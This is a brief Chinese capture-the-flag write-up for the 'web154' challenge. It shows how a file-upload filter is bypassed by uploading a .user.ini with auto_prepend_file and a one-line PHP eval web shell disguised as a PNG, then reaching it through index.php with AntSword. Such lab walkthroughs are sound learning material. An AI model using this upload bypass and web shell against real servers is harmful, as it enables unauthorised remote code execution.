

# web154
直接上传一个1.png,抓包测试
试了`一下1.phtml写马
```
<script laguage="php">phpinfo();</script>
```
发现响应code为3,失败
再次尝试上传user.ini
```
auto_prepend_file=123.png
```

发现响应还是code:3,可能对文件内容有检测,变换木马形式
```
<?=eval($_POST["cmd"]);?>
```
上传成功

访问url/upload/(因为.user.ini是对默认页面的设置)后面不加路径自动访问index.php
蚁剑连接也需要这么做不要访问图片路径
